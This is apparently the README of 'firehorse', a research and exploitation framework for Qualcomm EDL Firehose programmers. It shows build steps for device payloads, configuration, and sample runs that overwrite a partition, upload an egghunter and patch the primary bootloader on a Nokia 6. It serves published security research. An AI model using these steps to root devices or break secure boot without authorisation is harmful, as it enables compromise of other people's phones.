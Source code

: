 # firehorse 
By Roee Hay ([@roeehay](https://twitter.com/roeehay)) & Noam Hadad, Aleph Reseserch, HCL Technologies 

Research & Exploitation framework for Qualcomm EDL Firehose programmers.

Blog posts:

1. [Exploiting Qualcomm EDL Programmers (1): Gaining Access & PBL Internals](https://alephsecurity.com/2018/01/22/qualcomm-edl-1/)
2. [Exploiting Qualcomm EDL Programmers (2): Storage-based Attacks & Rooting](https://alephsecurity.com/2018/01/22/qualcomm-edl-2/)
3. [Exploiting Qualcomm EDL Programmers (3): Memory-based Attacks & PBL Extraction](https://alephsecurity.com/2018/01/22/qualcomm-edl-3/)
4. [Exploiting Qualcomm EDL Programmers (4): Runtime Debugger](https://alephsecurity.com/2018/01/22/qualcomm-edl-4/)
5. [Exploiting Qualcomm EDL Programmers (5): Breaking Nokia 6's Secure Boot](https://alephsecurity.com/2018/01/22/qualcomm-edl-5/) 


## Usage 

### Prerequisites
To use this tool you'll need:
   1. Qualcomm Product Support Tools (QPST - we used version 2.7.437 running on a windows 10 machine)
   2. A Cross compiler to build the payload for the devices (we used [arm-eabi-4.6](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/arm/arm-eabi-4.6/) toolchain for aarch32 and [aarch64-linux-android-4.8](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/aarch64/aarch64-linux-android-4.8/) toolchain for aarch64, both running on ubuntu 16.04 machine)
   3. Aquire the relevant programmers and copy them to the relevant host/target/device directory


### Building the payloads
First, we need to edit the Makefile in the device directory - set the device variable to whatever device we want (nokia6, angler, ugglite, mido and cheeseburger are currently supported).
<br/>
<br/>
Next, we set the CROSS_COMPILE_32 and CROSS_COMPILE_64 enviroment vars as follows:
```
export CROSS_COMPILE_32=<path-to-arm-eabi-4.6-toolchain>/bin/arm-eabi-
export CROSS_COMPILE_64=<path-to-aarch64-linux-android-4.8-toolchain>/bin/aarch64-linux-android-
```
Then we can call make and the payload for our specific device will be built

### Configure the tool 
Before we start, we need to configure some stuff, edit the constants.py file in the host directory:
  1. set COM to whatever com port the device is connnected to
  2. set FH_LOADER with a path to the fh_loader.exe  in the QPST\bin directory
  3. set SAHARA_SERVER with a path to the QSaharaServer.exe  in the QPST\bin directory

```python
COM = "COM17"
FH_LOADER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\fh_loader.exe"
SAHARA_SERVER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\QSaharaServer.exe" 
```
### Usage examples
```
c:\firehorse\host>python firehorse.py -s -c COM17 -t nokia6 target magic
INFO: sending programmer...
INFO: Overwriting partition logdump with ../tmp\nokia6-ramdisk-modified.cpio.gz...
INFO: applying patches and breakpoints...
INFO: installing bp for 0010527c
INFO: installing bp for 00104130
[...]
INFO: creating pagecopy...
INFO: pages: set([272, 256, 259, 260, 261])
INFO: uploading firehorse data...
INFO: uploading egghunter to 080af000
INFO: 080af000
INFO: i = 0, dst = 080d0000, cksum = d1fe325f
INFO: i = 1, dst = 080d0320, cksum = 3c092224
INFO: got all parts in 1 tries
INFO: uploading firehorse...
INFO: i = 0, dst = 080b0000, cksum = f5234b61
INFO: i = 1, dst = 080b0320, cksum = 641cb436
[...]
INFO: got all parts in 2 tries
INFO: initializing firehorse...
INFO: calling pbl patcher...
```


```
c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw hello

c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw peek 0x100000 0x10
INFO: 00100000  22 00 00 ea 70 00 00 ea 74 00 00 ea 78 00 00 ea   "...p...t...x...
```
